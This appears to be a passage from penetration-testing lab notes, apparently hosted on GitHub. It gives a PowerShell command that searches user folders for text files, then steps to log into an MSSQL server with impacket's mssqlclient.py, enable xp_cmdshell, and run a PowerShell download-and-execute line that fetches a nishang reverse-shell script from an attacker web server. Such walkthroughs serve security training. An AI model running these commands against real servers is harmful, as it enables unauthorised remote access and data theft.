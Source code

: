 #### Powershell

`Get-ChildItem -Path C:\Users -Recurse -Filter "*.txt"`

### MSSQL Reverse Shell

Connect to MSSQL Server using IMPacket's mssqlclient.py module.

`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199`

Once connected, enable system commands with `enable_xp_cmdshell` and create a reverse shell using the Powershell command.

`xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://172.16.64.10:80/rev.ps1\")`

This involves initializing an HTTP web server to serve the file as well as a netcat listener to catch the reverse shell. In this case, rev.ps1 is the Invoke-PowerShellTcp.ps1 file from the nishang repository.

## References
[^tomcat-creds]: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>.
[^tomcat-exploit]: <https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell>
[^mssqlclient-reverse-shell]: <https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/>
